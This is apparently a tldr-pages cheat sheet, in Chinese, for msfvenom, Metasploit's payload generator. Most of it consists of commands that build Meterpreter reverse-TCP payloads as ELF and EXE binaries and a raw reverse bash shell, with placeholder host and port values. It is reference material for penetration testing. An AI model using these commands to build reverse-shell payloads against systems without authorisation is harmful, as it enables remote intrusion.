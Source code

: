 # msfvenom

> 手动生成 Metasploit 的有效载荷。
> 更多信息：<https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>。

- 列出有效载荷：

`msfvenom -l payloads`

- 列出格式：

`msfvenom -l formats`

- 显示有效载荷选项：

`msfvenom -p {{payload}} --list-options`

- 创建带有反向 TCP 处理程序的 ELF 二进制文件：

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f elf -o {{path/to/binary}}`

- 创建带有反向 TCP 处理程序的 EXE 二进制文件：

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f exe -o {{path/to/binary.exe}}`

- 创建带有反向 TCP 处理程序的原始 Bash：

`msfvenom -p cmd/unix/reverse_bash LHOST={{local_ip}} LPORT={{local_port}} -f raw`